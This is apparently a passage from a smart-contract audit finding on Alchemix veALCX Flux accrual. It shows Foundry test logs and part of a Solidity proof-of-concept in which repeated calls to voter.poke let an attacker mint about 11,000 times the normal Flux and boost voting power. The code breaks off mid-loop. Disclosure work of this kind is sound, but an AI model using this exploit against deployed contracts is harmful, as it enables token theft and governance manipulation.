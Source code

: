 The log of this test case shows: 
```

[PASS] testFluxAccrual_Poke_Normal() (gas: 1296670)
Logs:
  Start to createLock with _maxLockEnabled is false and value is 1e18 BPT
  LockedBalance of tokenId1 lock.amount: 10000000000000000000  
  LockedBalance of tokenId1 _lock.end: 1716422400  
  LockedBalance of tokenId1 _lock.cooldown: 1716422400  
  LockedBalance of tokenId1 _lock.maxLockEnabled: false  
  Call voter.poke(tokenId1)
  unclaimedFlux1: 270057394723366387
  After having unclaimFlux, attacker can use to boost voting power or mint Flux token
  Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 270057394723366387 


```

So the unclaimedFlux1 of the tokenID1 is 270057394723366387 

To compare, the attacker get 11_000  times bigger that is the number of loops. So attackers can repeat this and get the unlimited token of Flux token. 


```
2970631341957030257000  /  270057394723366387  = 11_000 
```

So attacker can use the gained Flux token to boost the voting power.  
In this POC, I demonstrated that the attacker can mint Flux token. 

```
   Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 2970631341957030257000

```


## Full POC Code: 


To run the test 
Copy the test code into the file: 

```solidity
function testFluxAccrual_Poke_Hacked() public {
        
        address attacker = address(this); 
        console2.log("Start to createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 2 weeks, false);
                
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        console2.log("Call voter.poke(tokenId1)");
        
        uint256 count = 11000; 

        for (uint256 i = 0; i < count; ++i)
        {
```